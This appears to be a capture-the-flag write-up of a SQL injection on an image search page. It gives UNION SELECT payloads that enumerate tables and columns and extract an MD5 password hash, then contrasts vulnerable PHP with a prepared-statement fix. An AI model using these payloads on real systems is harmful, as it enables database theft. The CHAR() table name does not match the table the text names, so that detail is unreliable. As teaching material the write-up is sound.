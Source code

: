## How did we found it

Found all the tables with `42 UNION SELECT table_name, NULL FROM information_schema.tables`.
With `42 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=CHAR(100, 98, 95, 100, 101, 102, 97, 117, 108, 116)` on the page `url/?page=searchimg` we got the names of the columns for the list_images table.
Then with `42 UNION SELECT 1, (SELECT CONCAT(id, url, title, comment) FROM list_images WHERE id=5)` on the same page we got an MD5 pass, cracked with `https://crackstation.net` and then encrypt back to SHA256.

## How to fix it
In the backend, the sql request need to be prepared, in this case sql can't be injected
Print only column (by name) who is waited

## PHP exemple
### bad php

```
$conn = new mysqli("localhost", "username", "password", "database");
$result = $conn->query("SELECT * FROM users WHERE username = '$username'");
while($row = $result->fetch_assoc())
{
    echo "id: " . $row["id"]. " - Nom: " . $row["username"]. "<br>";
}
```

### good php

```
$bdd = new PDO ('mysql:host=HOST_SQL;dbname=NAME_DB;charset=utf8', 'SQL_USERNAME', 'SQLPASSWORD' , array(PDO::MYSQL_ATTR_INIT_COMMAND => 'SET NAMES utf8'));
$req = $bdd->prepare("SELECT NAME_COLUMN_1, NAME_COLUMN_2 FROM `users` WHERE user_id LIKE ?");
$req->execute(array(htmlspecialchars($ID_USER_VAR)));
foreach ($req as $donnee)
{
	echo $donnee["NAME_COLUMN_1"];
	echo $donnee["NAME_COLUMN_2"];
}
```